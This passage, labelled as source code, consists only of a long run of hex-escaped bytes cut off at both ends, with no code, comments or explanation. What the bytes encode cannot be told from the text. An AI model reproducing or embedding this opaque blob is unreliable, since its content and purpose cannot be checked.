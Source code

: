 ```
x4a\x51\xb9\x7d\x09\x39\x89\xa6\xe7\x7c\x65\xec\x31\x58\x28\x48\x2c\x3b\xb8\xca\x8c\xab\xb2\x0d\x39\x08\x43\x95\x17\x6b\xe0\x60\x1e\x22\xde\x08\x1a\x74\x0a\xd4\x00\x47\x98\x3c\x70\xc7\xd5\xa0\xd3\x02\xee\x25\x78\x63\x99\xc0\x26\x32\x4b\x6f\x3d\xaf\xdc\x9a\xa7\x34\xfd\x91\x35\x45\x23\xe2\xa4\x5a\xee\xe6\x6e\x3d\x21\x2b\xeb\xe0\x1a\x56\x3a\x6f\x0a\x8b\x5b\x41\xbd\xb4\x26\xd4\x6d\x10\x3e\x1a\x23\x3c\xb2\x38\x56\xe8\x65\xf7\xe5\xa4\x27\x78\x3b\x66\xea\x6d\x09\x5f\xa7\x2e\x0d\x0c\x73\x1a\xef\x68\xd8\x65\x8f\xde\x99\xee\x02\xd3\x52\xfb\x86\x6a\x3d\x93\xe2\x0d\x66\xdc\x26\x40\x09\x9a\x8c\x26\x62\x32\xaf\x30\xda\xe0\x38\x81\x26\x7e\x6a\xb9\x2a\xff\xed\x88\x6c\xbd\x92\x37\x28\x39\x7a\x9c\x3d\x24\x94\xab\x6a\xaf\x76\x5c\x5f\xbf\xc8\xc3\xb5\x4d\x9d\x52\x9a\x20\x9f\x20\x0d\xc9\xc2\x83\xb1\x65\x4e\xba\xd7\x15\x89\x21\x2e\xac\xbc\xbb\x04\x6d\xf8\x98\xc5\x45\x10\xa4\xe3\xf1\x4e\xe9\x61\x04\x2e\xf0\x06\x9f\xe4\x66\x8c\xfb\xae\xb3\x29\x38\x55\xac\x28\x8a\x89\x79\x4d\xe2\xb5\x4a\xa2\xbc\x02\x2a\x8f\x05\xd7\x9d\x96\xfc\x4d\x76\x1c\x81\x3a\xef\x99\x2e\xe3\xcf\x01\x60\xf8\x6a\xc6\x0c\x14\xab\xe7\x4d\xe2\xbd\x45\xd0\x6b\x4f\x42\x19\xc1\x9e\x98\x1d\x7d\x50\x54\xa5\x6c\x17\x0d\x2f\x71\x82\x5d\x7a\x44\x69\x37\x78\x1c\xd6\xc3\x2f\x77\x06\x94\x8b\x87\x28\xb3\xcb\xcc\x7f\x04\x09\xef\xe1\xee\x81\xb3\x8f\xcd\x79\x86\x2d\xf5\xaa\x6d\xe2\xd3\x8f\x56\x2e\x13\xf5\x5d\xbf\xef\xb0\x0a\x54\x69\x03\xbe\x58\x32\x21\xe7\xe0\xa4\x19\xba\x0c\xfc\xdd\x14\xfb\x13\x8d\x96\xa8\x89\xc9\x4e\x4d\x39\x23\x3e\x5a\xa4\x5d\xbe\x30\x15\x5c\x97\x07\xe5\x19\xde\xac\x4a\xf1\xdb\xa1\xf4\x9c\x73\x6f\xee\x2f\x0a\x59\xcd\x94\xd2\xc7\x5f\x51\x54\xbd\x05\x6e\x03\x20\x14\x58\x0e\x1f\xcf\xf6\xb8\x54\x96\x5f\x32\x23\xeb\x1f\x59\xe3\xec\xab\xe7\x9c\x2e\x07\x09\x5e\x18\xe3\x51\xa1\xe4\x58\x3e\x93\xb2\xd7\x67\x1d\xf0\xf5\xb4\xec\xe0\x5d\xd1\xb1\x39\x47\x6a\xeb\x4b\x47\x1b\xb0\x88\x02\xe3\xf7\x6d\x2f\xda\xd7\x0c\xf1\x83\x7b\xc9\x64\x67\xdd\x7b\xe4\x81\x01\xc7\x62\x0d\xdd\x79\xd0\x93\x49\x1c\x43\xe1\x47\xf1\x31\x7f\x58\xa7\xc3\x20\x22\x68\x7d\x88\x47\xe0\xf7\x3d\x93\xf3\xe8\xa2\xb9\x8c\xc8\x94\x94\xab\x18\xa8\x92\x4c\x02\x24\xe0\x90\x9f\xe4\x8c\x61\xfe\x63\xdd\x38\xf5\xab\x0b\xc9\xd5\xfa\xf4\xd1\xdd\x0e\xb3\x69\xea\x94\xe7\xee\xe3\xce\x78\xc3\x83\x15\x06\x76\xa5\x9c\xe3\x85\xfb\xf1\x9b\x9f\xfe\xf0\x65\x0b\x0a\xa0\xeb\x9d\x1f\x70\x59\x91\x56\x0d\xf8\x46\xcc\xfa\x1b\x4b\x04\x96\xde\x37\xe5\xe6\x09\xf3\xe6\x6a\x3a\xfb\x56\x0f\xf1\x99\x08\x41\xcb\x5d\x1d\xad\xab\xe4\x2a\x45\x70\xd
